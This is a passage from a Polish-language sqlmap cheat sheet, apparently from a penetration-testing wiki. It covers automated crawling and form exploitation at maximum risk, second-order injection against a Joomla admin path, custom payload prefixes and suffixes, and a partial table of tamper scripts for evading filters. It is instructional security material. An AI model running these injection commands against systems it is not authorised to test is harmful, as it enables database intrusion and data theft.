 ### Crawlowanie strony internetowej za pomocą SQLmap i automatyczne wykorzystanie
```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
### Wstrzyknięcie Drugiego Rzędu
```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```
[**Przeczytaj ten post** ](second-order-injection-sqlmap.md)**o tym, jak przeprowadzać proste i złożone drugorzędowe wstrzyknięcia za pomocą sqlmap.**

## Dostosowywanie wstrzyknięcia

### Ustaw sufiks
```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```
### Prefiks
```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```
### Pomoc w znajdowaniu wstrzyknięć boolean
```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```
### Tamper

Pamiętaj, że **możesz stworzyć własny tamper w pythonie** i jest to bardzo proste. Możesz znaleźć przykład tampera na [stronie Drugiego Rzędu Wstrzyknięcia tutaj](second-order-injection-sqlmap.md).
```bash
--tamper=name_of_the_tamper
#In kali you can see all the tampers in /usr/share/sqlmap/tamper
```
| Tamper                       | Opis                                                                                                                               |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| apostrophemask.py            | Zastępuje znak apostrofu jego pełnowymiarowym odpowiednikiem UTF-8                                                                |
| apostrophenullencode.py      | Zastępuje znak apostrofu jego nielegalnym podwójnym odpowiednikiem unicode                                                          |
| appendnullbyte.py            | Dodaje zakodowany znak NULL na końcu ładunku                                                                                      |
| base64encode.py              | Koduje wszystkie znaki w danym ładunku w formacie Base64                                                                           |
| between.py                   | Zastępuje operator większy niż ('>') z 'NOT BETWEEN 0 AND #'                                                                      |
| bluecoat.py                  | Zastępuje znak spacji po instrukcji SQL ważnym losowym znakiem pustym. Następnie zastępuje znak = operatorem LIKE                 |
| chardoubleencode.py          | Podwójnie koduje URL wszystkie znaki w danym ładunku (nie przetwarzając już zakodowanych)                                          |
| commalesslimit.py            | Zastępuje wystąpienia takie jak 'LIMIT M, N' z 'LIMIT N OFFSET M'                                                                |
| commalessmid.py              | Zastępuje wystąpienia takie jak 'MID(A, B, C)' z 'MID(A FROM B FOR C)'                                                           |